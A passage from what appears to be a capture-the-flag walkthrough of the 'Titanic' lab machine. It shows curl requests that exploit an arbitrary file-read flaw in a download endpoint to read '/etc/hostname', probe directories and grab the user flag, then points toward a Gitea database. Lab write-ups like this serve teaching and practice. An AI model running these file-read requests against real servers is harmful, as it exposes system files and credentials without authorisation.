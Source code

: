If the given ticket is not found at all, `os.path.exist` returns false and it returns and error message:

```

oxdf@hacky$ curl 'http://titanic.htb/download?ticket=/etc/0xdf'
{"error":"Ticket not found"}

```

If the filepath is a file, it returns that file:

```

oxdf@hacky$ curl 'http://titanic.htb/download?ticket=/etc/hostname'
titanic

```

If it is a directory, it will exist, but then crash in `send_file`:

```

oxdf@hacky$ curl 'http://titanic.htb/download?ticket=/etc/'
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>

```

This will allow me to check for the existence of directories.

#### User Flag

There’s only one non-root user in the `passwd` file that has a shell set, developer. I’ll see if the website can read `user.txt` from that user’s home directory:

![image-20250219143357613](/img/image-20250219143357613.png)

This is why the user flag for Titanic went in three minutes and five seconds.

### SSH

#### Locate Gitea DB

The `docker-compose.yml` file showed that Gitea was running with a shared volume in the developer user’s home directory:

```

    volumes:
      - /home/developer/gitea/data:/data

```
